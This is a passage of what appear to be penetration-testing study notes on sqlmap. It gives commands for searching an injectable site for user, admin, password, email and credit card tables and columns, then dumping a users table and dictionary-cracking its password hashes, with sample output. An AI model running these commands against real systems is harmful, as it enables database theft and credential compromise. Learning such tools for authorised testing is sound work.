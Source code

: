 ```bash
Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+
```

**Search Columns by Name:**
```bash
# Find all columns containing "pass" in name
sqlmap -u "http://www.example.com/?id=1" --search -C pass

# Expected output:
Database: master
Table: users
[1 column]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+
```

**Search Pattern Examples:**
```bash
# Common search targets
sqlmap -u "URL" --search -T user                # User tables
sqlmap -u "URL" --search -T admin               # Admin tables
sqlmap -u "URL" --search -T account             # Account tables
sqlmap -u "URL" --search -T login               # Login tables

sqlmap -u "URL" --search -C pass                # Password columns
sqlmap -u "URL" --search -C email               # Email columns
sqlmap -u "URL" --search -C credit              # Credit card columns
sqlmap -u "URL" --search -C style               # Style columns (HTB Academy)
```

##### Automatic Password Hash Cracking

**Password Table Enumeration:**
```bash
# Extract password table with automatic hash detection
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

# SQLMap automatically detects password hashes:
[INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file? [y/N] N
do you want to crack them via dictionary-based attack? [Y/n/q] Y
```
